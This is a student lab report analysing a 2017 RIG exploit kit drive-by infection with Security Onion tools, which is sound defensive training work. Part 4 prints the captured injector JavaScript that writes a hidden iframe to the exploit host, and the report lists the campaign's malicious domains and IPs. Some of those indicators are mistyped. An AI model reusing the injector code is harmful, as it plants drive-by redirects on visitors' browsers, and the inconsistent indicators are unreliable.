

# Lab Report: Investigating the RIG EK Malware Exploit

## Objectives

In this lab I will learn about the Malware Exploit with Kibana as my
first point of interaction. Then I'd Investigate the Exploit with Sguil
and use Wireshark to investigate the attack further. Finally, I will
examine the exploit artifacts. Working and documenting this lab was time consumng: actually took me three good days. However, it was really worth the experience. I had to get myself some chilled coke after pushing this report to Github on Sunday October 12, 2025 at 9:35pm GMT.

## Scenario

You have decided to interview for a job in a medium sized company as a
Tier 1 cybersecurity analyst. You have been asked to demonstrate your
ability to pinpoint the details of an attack in which a computer was
compromised. Your goal is to answer a series of questions using Sguil,
Kibana, and Wireshark in Security Onion. You have been given the
following details about the event:

-   The event happened in January of 2017.

-   It was discovered by the Snort NIDS.

## Tools Used
- Security Onion virtual machine
- ELK Stack
- Sguill
- capME
- NetworkMiner
- Wireshark

  ## Investigation Workflow

    ### Part 1: Using Kibana to Learn About a Malware Exploit

    I logged in to Security Onion, opened Kibana and also logged in and
    I set an Absolute time range to narrow the focus to log data from
    January 2017.

    

    I then narrowed the time range in the Total Log Count Over Time
    visualization by clicking and dragging to select thearea around the
    graph data point until I saw some detail in the graph.

    

    After narrowing the time range in the main Kibana dashboard, I went
    to the NIDS Alert Data dashboard by clicking NIDS.

    
    

    I zoomed in on the event by clicking and dragging in the NIDS --
    Alerts Over Time visualization further focus in on the event
    timeframe.

    

    To filter for only thefirst event, I clicked the first point on the
    timeline.

    
    

    I then scrolled all the way to the bottom of the dashboard to view
    details for the events that occurred at that time.

    

    Expanding the details for the first log event, I made a few
    observations.

    

    The first detected NIDS alert was on January 27th 2017 at 11:54 pm.
    The traffic originated from `172.16.4.193` to the web server on
    `194.87.234.129`. Going a bit further, I identified the classification
    of the alert as trojan-activity destinned to the webserver whichn
    was based in Russia.

    

    In my web browser, I opened the link that was provided in the
    signature_info field of the alert.

    

    This had to take me to the Emerging Threats Snort alert rule for the
    exploit but I was automatically redirected to the main webpage.

    

    Since I had to examine details of the rule that triggered that
    alert, I researched why I was not not able to access
    doc.emergingthreats.net/2001972. Interestingly, I came across
    someone's question on the same issue via the suricata forum as far
    back as 2023. Link here:
    <https://forum.suricata.io/t/why-cannot-i-open-this-kind-url-link-in-emergingthreats-open-rules/4271>

    

    However, I got more information from CriminalIP.io here:
    <https://www.criminalip.io/domain/report/17296450> whose report
    showed that the link was permanently moved to a new url, thus the
    main page of EmergingThreats

    

    Now, I still had to see that rule to understand the attack hence I
    fell back on YouTube where I watched a video by someone solving this
    same lab but at the time, the link worked.

    

    From there, I had the chance to see the rule and that the malware
    family for that event was **Exploit_Kit_RIG** with a signature
    severity **MAJOR**.

    

    Via Google search, I opened a 3-min read webpage by Palo Alto network
    which defined an exploit kit as an exploit that silently exploits
    vulnerabilities on victims' machines while browsing the web. Link
    here:
    <https://www.paloaltonetworks.com/cyberpedia/what-is-an-exploit-kit>

    

    Exploit kits frequently use what is called a drive-by attack to
    begin the attack campaign. In a drive-by attack, a user will visit a
    website that should be considered safe. However, threat actors find
    ways to compromise legitimate websites by finding vulnerabilities on
    the webservers that host them. The vulnerabilities allow threat
    actors to insert their own malicious code into the HTML of a
    webpage. The code is frequently inserted into an iFrame. iFrames
    permit content from different websites to be displayed in the same
    webpage. Threat actors will frequently create an invisible iFrame
    that connects the browser to a malicious website. The HTML from the
    website that is loaded into the browser often contains a JavaScript
    that will send the browser to yet another malicious website.

    Moving on, I clicked the **alert_id** value and pivoted to CapME
    to inspect the transcript of the event.

    
    

    From above, capME showed that the requested file was gzip
    compressed. Examining the first block of blue text which was the
    request from the source to the destination webserver. The first url
    tagged as SRC: REFERER was the website that the source computer
    first accessed. However, the server referred browser the HTTP GET
    request to the SRC:HOST. Something in the HTML sent the source to
    that site. Perhaps could be a drive-by attack as Cisco says.. but
    let me move on further with the analysis. The user intended to
    connect to `www.homeimprovement.com`but the browser refered the user to ty.benme.com where the content,
    shown as a zip was requested from the source at the malicious site.
    It could be malware though and I'm basing my analysis to the reason
    why the file was zipped so that its content is obfuscated.

    

    I closed capME and returned to the NIDS Alert Dashboard.

    

    I scrolled up. From the Zeek Hunting dashboard, I selected HTTP and
    verified that it was the same initial absolute time range I had set
    earlier but I tweaked it a bit.

    
    
    

    I scrolled down to the HTTP - Sites section of the dashboard which
    had websites such as `www.bing.com` with the
    rest as seen below.

    

    Not all of the sites shown were part of the exploit campaign hence I
    researched the URLs by searching for them on the internet but by
    enclosing it in double quotes so I do not connect to them. I
    identified the sites below as part of the exploit campaign.

    - p27dokhpz2n7nvgr.1jw2lx.top

    - homeimprovement.com

    - tyu.benme.com

    - spotsbill.com

    - retrotip.visionurbana.com.ve

    

    I moved on to checking for the HTTP - MIME Types listed in the Tag
    Cloud.

    

    ### Part 2: Investigating the Exploit with Sguil

    I launched and logged in to Sguill. I then enabled all sensors and
    started the program.

    
    

    I then located the group of alerts from January 27th 2017. According
    to Sguil as seen in the screenshot I took below, the timestamps for
    the first and last of the alerts that occurred within about a second
    of each other were **22:54:42** to **22:55:28** which in fact shows that the
    entire exploit occurred in less than a minute. This is getting
    intereting haha.

    

    I then clicked the **Show Packet Data** and **Show Rule** checkboxes
    to see the packet header field information and the IDS signature
    rule related to the alert with ID 5.1. According to the IDS
    signature rule, the **PseudoDarkLeech** malware family triggered
    that alert .

    

    I then reviewed the Event Messages for each of the alert IDs related
    to the attack. According to the Event Messages in Sguil the RIG EK
    Exploit was involved in the attack. Beyond labelling the attack as
    trojan activity, ransomware is another information provided
    regarding the type and name of the malware involved. \|From
    information at hand now, I'm gradually drawing a picture of the user
    visiting a malicious webpage.

    
    

    Right-clicking the associated alert ID 5.2 and selecting
    **Transcript** from the menu, I confirmed that the user issued a
    search on Bing with the search terms "home improvement remodeling
    your kitchen." Then the user clicked the www.homeimprovement.com
    link and visited that site.

    
    

    I did same (checking the transcript) with the event having the alert
    id 5.24. It was an HTTP/1.1 GET request for the file **dle_js.j**s but
    the content was encoded as a gzip. The referer website was
    `www.homeimprovement.com/remodeling-your-kitchen-cabinets.html` and
    the host website was `retrotip.visionbura.com.ve`

    

    I closed the current transcript window. In the Sguil window, I
    right-clicked the alert ID 5.25 and opened the transcript.

    

    There were 3 requests and 3 responses in total and the first request
    made was to /?ct=Vivaldi&biw=Vival... (full link can be seen in the
    image below). The referrer was
    `www.homeimprovement.com/remodeling-your-kitchen-cabinets.html`
    and the host server request was to `tyu.benme.co`.

    

    The second request was a POST /?oq=CEh3h8.. (full link is seen in
    the screenshot below). The host server request was to `tyu.benme.com`
    and the response was encoded as a gzip.

    

    The third request was GET /?biw=SeaMonkey...(as seen below) and
    referred by `http://tyu.benme.com/?biw...` as seen below). The Content-Type of
    the third response was **application/x-shockwave-flash** and the first 3
    characters of the data in the response thus after the last DST:
    entry was CWS.

    
    

    CWS is a file signature and it helps identify the type of file that
    is represented by different types of data. I visited
    `https://en.wikipedia.org/wiki/List_of_file_signatures` to find out
    what type of file was downloaded in the data. I USED CTRL + F to
    search for CWS where I identified swf as the filetype downloaded and
    that filetype is used by Adobe Flash.

    
    

    I closed the transcript window, right-clicked the same ID again and
    choose **Network Miner**. CI then clicked the Files tab to view
    there were three files of the type .html for two and the last being
    **.swf**.

    
    

    ### Part 3: Using Wireshark to Investigate the Attack

    In Sguil, I right-clicked the alert ID 5.2 (Event Message ET
    CURRENT_EVENTS Evil Redirector Leading to EK Jul 12 2016) and
    pivoted to select **Wireshark** from the menu. The pcap associated
    with that alert opened in Wireshark.

    
    

    The default Wireshark setting uses a relative time per-packet which
    is not very helpful for isolating the exact time an event occurred.
    To fix this, I clicked **View \> Time Display Format \> Date and
    Time of Day** and then repeated a second time, **View \> Time
    Display Format \> Seconds**.

    
    
    

    Now with the time correctly formatted, I used the **http.request**
    display filter to filter for web requests only.

    

    I selected the first packet and in the packet details area, I
    expanded the Hypertext Transfer Protocol application layer data to
    observe the websitethat directed the user to the
    www.homeimprovement.com website which was bing.com

    

    Moving on, I navigated to **File \> Export Objects \> HTTP**

    

    In the Export HTTP objects list window, I selected the
    `remodeling-your-kitchen-cabinets.html` packet and saved it to my
    system. After, I closed Wireshark.

    
    

    In Sguil, I right-clicked the alert ID 5.24 (source IP address
    59.160.143 and Event Message ET CURRRENT_EVENTS Evil Redirector
    Leading to EK March 15 2017) and choose **Wireshark** to pivot to
    Wireshark. There I applied an **http.request** display filter.

    

    I observed that the GET request was for a javascript file named
    dle_js.js and retrotip.visionurbana.com.ve being the host server.

    In Wireshark, I navigated to **File \> Export Objects \> HTTP** and
    saved the JavaScript file to my device.

    

    I closed Wireshark. In Sguil, I right-clicked the alert ID 5.25
    (Event Message ET CURRENT_EVENTS RIG EK URI Struct Mar 13 2017 M2)
    and chose **Wireshark** to pivot to Wireshark. I then applied an
    **http.request** display filter. This alert corresponds to the three
    GET, POST, and GET requests that I came across earlier.

    

    With the first packet selected, in the packet details area, I
    expanded the **Hypertext Transfer Protocol** application layer data
    and right-clicked the Host information. From there I choose **Apply
    as Column** to add the Host information to the packet list columns.

    
    

    Previous analyisis showed that the user intended to access
    `www.homeimprovement.com`, but the site referred the user to other
    sites. Eventually files were downloaded to the host from a malware
    site. I now had to access the files that were downloaded and submit
    the file hash to VirusTotal to verify that indeed a malicious file
    was downloaded.

    In Wireshark, I navigated to **File \> Export Objects \> HTTP** and
    saved the two **text/html** files and the
    **application/x-shockwave-flash** file to my system.

    

    I opened the terminal and issued a **ls -l** command to look at the
    files saved in my home directory.

    

    The flash file had the word SeaMonkey near the beginning of the long
    filename. Hence, I used the **ls -l** command with **grep** to
    filter out the filename with the pattern **seamonkey**. The option
    **-i** ignores the case distinction.

    

    I then genrated a SHA-1 hash for the SeaMonkey flash file with the
    command **sha1sum** followed by the filename. I highlighted the hash
    value in the screenshot I took.

    

    I also tried to generate the hash value by using **NetworkMiner**. I
    navigated to Sguil, right-clicked the alert ID 5.25 (Event Message
    ET CURRENT_EVENTS RIG EK URI Struct Mar 13 2017 M2) and selected
    **NetworkMinor** to pivot to **NetworkMinor**. I then selected the
    **Files** and right-clicked the file with **swf** extension and
    selected **Calculate MD5 / SHA1 / SHA256 hash**. I realized the SHA1
    hash value was the same as earlier.

    

    I then submited the hash to Virustotal.com to search for a match in
    the database of known malware hashes. From the response, I confirmed
    that the swf was part of the exploit kit.

    
    
    

    I closed the browser and Wireshark. In Sguil, I used alert ID 5.37
    (Event Message ET CURRENT_EVENTS RIG EK Landing Sep 12 2016 T2) to
    pivot to **Wireshark** and examined the HTTP requests. The alerts
    showed GET, POST and GET requests to tyu.benme,com and similar to
    what I observed previously; two **text/html** files and a **flash**
    file. The files names were different though.

    

    I created a SHA-1 hash of the SWF file as I did previously. I then
    compared the hash value to that from the previous HTTP session and
    confirmed that the two hashes matched even though the filenames were
    different.

    

    In Sguil, the last 4 alerts in this series were closely related, and
    they also seem to be communicating with the malware server. The
    communication that took place between the second and third alerts in
    the series were DNS requests initiated from the local host to a **.top**
    domain. This was probably done by the malware file.

    

    I visited `virustotal.com` and made a URL search for the **.top** domain
    used in the attack and confirmed it was indeed a malicious domain.

    

    I then examined the last alert in the series in **Wireshark** and
    extracted the object worth saving, exported and saved it to my home
    folder. It had the Filename starting EE7E... as seen below.

    

    ### Part 4: Examining Exploit Artifacts

    In Security Onion, I opened the
    **remodeling-your-kitchen-cabinets.html** file using gedit. This was
    the webpage that initiated the attack.

    

    I viewed the html file and identified the lines of code involved in
    the drive-by attack. I highlighted it below. The first was in the
    \<head\> area and the second was in the \<body\> area of the page.
    The script tag in the header loads the JavaScript file dle_js.js
    from **retrotip.visionurbana.com.ve**. The iframe that loads content
    from **tyu.benme.com** was defined in the HTML body.

    
    

    I then opened the **dle_js.js** file in gedit and examined it.

    

    `document.write(\'\
 \
\<a\>head\</a\>\<a class=\"head-menu-2\"\>
    \</a\>\<iframe
    src=\"https://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya\"
    width=290 height=257 \>\</ifr\' +\'ame\> \<a
    style=\"\"\>\</a\>\</div\>\<a class=\"\"
    style=\"\"\>temp\</a\>\</div\>\');\`

    As seen was the full content of the javascript document.write()
    which creates an iframe on the webpage which redirects a user to `https://tyu.benme.com/`

    I also noticed that, to avoid detection, the the javascript file
    split the end iframe tag into two pieces **\</ifr' +'ame\>**

    

    I aslo opened in gedit the file I saved which had **Vivaldi** as
    part of the filename.

    

    From the screenshot shown below, the hidden \`\<iframe\>\`
    automatically loads when the page starts and connects to `http://tyu.benme.com/`. The \`start()\` function, which runs
    shortly after the page loads, writes directly to the browser window
    by creating an HTML form and automatically submitting it through a
    POST request to that URL thereby sending the \`NormalURL\` data in
    the process. This likely allows the page to silently communicate
    with or redirect to the remote server without the user noticing.
    Meanwhile, the \`getBrowser()\` function collects information about
    the user's browser which could then be used to fingerprint users or
    customize the data being sent to the remote site.

    

    ## Reflection

    Exploit Kits are fairly complex exploits that use a variety of
    methods and resources to carry out an attack. Interestingly EKs may
    be used to deliver diverse malware payloads. This is because the EK
    developer may offer the exploit kit as a service to other threat
    actors. To tell the story about how the exploit unfolded, please
    stay with me a bit more: A user searches on **Bing** and clicks a
    seemingly normal result for `www.homeimprovement.com`
    (104.28.18.74). Unknown to them, that site has been compromised and
    contains **a hidden iframe** which silently redirects the browser to
    **retrotip.visionurbana.com.ve** (139.59.160.143). Once there,
    **malicious JavaScript** runs and pushes the victim onward to an
    exploit landing page at **tyu.benme.com** (194.87.234.129), which
    delivers a specially crafted **Adobe Flash file**. When the Flash
    file **executes**, it drops and launches malware on the user's
    system; that malware then checks in with a **Cerber ransomware
    command-and-control infrastructure** ( 90.2.10.0) and eventually
    landing the victim on a **Cerber ransomware page** hosted at
    **p27dokhpz2n7nvgr.1jjw2lx.top** (198.105.151.50)
